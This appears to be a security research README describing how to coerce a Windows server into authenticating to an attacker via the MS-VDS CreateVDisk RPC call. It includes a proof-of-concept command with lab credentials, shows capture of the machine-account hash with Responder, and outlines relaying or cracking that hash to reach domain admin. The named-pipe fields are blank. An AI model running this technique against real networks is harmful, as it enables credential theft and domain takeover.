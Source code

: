 # MS-VDS - Remote call to IVdsVdProvider::CreateVDisk (opnum 4)

## Summary

+ **Protocol**: [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db)

+ **Protocol UUID**: 118610b7-8d94-4030-b5b8-500889788e4e

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IVdsVdProvider::CreateVDisk`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/f4902b82-754f-4d5c-9c02-9bd91e149200)

+ **Function operation number**: `4`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol (with uuid `118610b7-8d94-4030-b5b8-500889788e4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) and allows to call RPC functions of this protocol. We will then call the remote [`IVdsVdProvider::CreateVDisk`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/f4902b82-754f-4d5c-9c02-9bd91e149200) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVdsVdProvider::CreateVDisk('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreateVDisk(
   [in] PVIRTUAL_STORAGE_TYPE VirtualDeviceType,
   [in, string] LPWSTR pPath,
   [in, string, unique] LPWSTR pStringSecurityDescriptor,
   [in] CREATE_VIRTUAL_DISK_FLAG Flags,
   [in] ULONG ProviderSpecificFlags,
   [in] ULONG Reserved,
   [in] PVDS_CREATE_VDISK_PARAMETERS pCreateDiskParameters,
   [in, out, unique] IVdsAsync** ppAsync
 );
```

## References

+ Documentation of protocol [MS-VDS]: Virtual Disk Service (VDS) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db

+ Documentation of function `IVdsVdProvider::CreateVDisk`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/f4902b82-754f-4d5c-9c02-9bd91e149200